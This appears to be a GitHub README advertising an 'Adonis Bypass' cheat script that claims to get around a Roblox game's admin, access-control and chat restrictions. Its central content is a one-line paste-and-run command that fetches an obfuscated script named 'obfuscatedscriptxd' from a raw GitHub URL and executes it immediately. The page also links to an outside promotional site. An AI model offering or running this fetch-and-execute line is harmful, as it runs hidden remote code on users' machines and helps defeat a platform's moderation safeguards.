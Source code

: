 # Adonis Bypass | Official Website:
https://zo9070.vercel.app
## Best functioning Adonis Bypass that allows Public bathroom simulator to use ACL, chat bypasses.
# Ready to try? Use it now!
<loadstring(game:HttpGet("https://raw.githubusercontent.com/John142-dot/adonisbypass.lua/refs/heads/main/obfuscatedscriptxd",true))()>
https://raw.githubusercontent.com/John142-dot/adonisbypass.lua/refs/heads/main/2024100315230001.jpg

